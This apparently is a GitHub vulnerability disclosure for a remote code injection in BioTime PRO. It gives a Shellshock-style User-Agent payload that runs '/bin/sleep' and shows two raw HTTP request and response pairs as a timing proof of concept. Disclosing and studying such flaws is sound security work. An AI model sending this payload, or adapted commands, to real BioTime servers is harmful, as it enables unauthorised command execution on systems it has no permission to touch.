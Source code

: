 # BioTime-RCI

A critical code injection vulnerability has been identified in the BioTime PRO application. This vulnerability arises from the application evaluating user input as executable code, which allows an attacker to manipulate the system's behavior. The issue was demonstrated by injecting a crafted payload into the "User-Agent" header, specifically () { _; } >_[$$($$())] { /bin/sleep 0; }. This payload instructed the server to execute the sleep command, which causes the server to pause for a specified duration before responding.

In the initial test, when the payload was set to sleep for 0 milliseconds, the server responded after 556ms. However, when the payload was altered to instruct the server to sleep for 4000ms, the response time increased to 4525ms, confirming that the injected code was executed by the server. This behavior demonstrates the vulnerability, as the server is incorrectly processing user input as executable code.

# <strong>Request #1 (0ms)</strong></br>
GET /login/?next=/ HTTP/1.1</br>
Host: *.*.*.*:8808</br>
Accept-Encoding: gzip, deflate, br</br>
Accept: */*</br>
Accept-Language: en-US;q=0.9,en;q=0.8</br>
User-Agent: () { _; } >_[$$($$())] { /bin/sleep 0; }</br>
Connection: close</br>
Cache-Control: max-age=0</br>
Referer: http://*.*.*.*:8808/</br>

# <strong>Response #1 (0ms)</strong></br>
HTTP/1.1 200 OK</br>
Date: Mon, 20 Jan 2025 02:53:20 GMT</br>
Server: Apache/2.4.29 (Win64) mod_wsgi/4.5.24 Python/2.7</br>
Content-Length: 8464</br>
Content-Language: es-mx</br>
Expires: Mon, 20 Jan 2025 02:53:20 GMT</br>
Vary: Cookie,Accept-Language</br>
Pragma: no-cache</br>
Cache-Control: no-store</br>
Content-Type: text/html; charset=utf-8</br>
Set-Cookie: csrftoken=uFz7eNnGN00aAJOtLecW6NiasFhfBc8t27dVRCtxfxHF88ehK5inLwPrJPrWhvz0; expires=Mon, 19-Jan-2026 02:53:20 GMT; Max-Age=31449600; Path=/</br>
Connection: close</br>

# <strong>Request #2 (4000ms)</strong></br>
GET /login/?next=/ HTTP/1.1</br>
Host: *.*.*.*:8808</br>
Accept-Encoding: gzip, deflate, br</br>
Accept: */*</br>
Accept-Language: en-US;q=0.9,en;q=0.8</br>
User-Agent: () { _; } >_[$$($$())] { /bin/sleep 4; }</br>
Connection: close</br>
Cache-Control: max-age=0</br>
Referer: http://*.*.*.*:8808/</br>

# <strong>Response #2 (4000ms)</strong></br>
HTTP/1.1 200 OK</br>
Date: Mon, 20 Jan 2025 02:53:21 GMT</br>
Server: Apache/2.4.29 (Win64) mod_wsgi/4.5.24 Python/2.7</br>
Content-Length: 8464</br>
Content-Language: es-mx</br>
Expires: Mon, 20 Jan 2025 02:53:28 GMT</br>
Vary: Cookie,Accept-Language</br>
Pragma: no-cache</br>
Cache-Control: no-store</br>
Content-Type: text/html; charset=utf-8</br>
Set-Cookie: csrftoken=CtdDPNnK4cXtsYml2Os22fhU3SpEVLeak2O3PpKxeqnXS0RLbxf3NhTjugjWg5rp; expires=Mon, 19-Jan-2026 02:53:28 GMT; Max-Age=31449600; Path=/</br>
Connection: close</br>
